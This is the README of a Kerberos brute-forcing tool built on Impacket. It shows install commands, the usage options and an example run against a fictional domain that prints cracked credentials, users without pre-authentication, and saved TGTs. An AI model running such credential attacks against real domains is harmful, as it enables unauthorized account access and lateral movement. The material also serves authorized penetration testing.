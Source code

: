 # kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
* Valid username/passwords pairs
* Valid usernames
* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

To install:
```
lsgit clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
root@kali:kerbrute# python kerbrute.py
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com
```

Example of execution:
```shell
root@kali:kerbrute# python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Saved discovered passwords in jurassic_passwords.txt
```

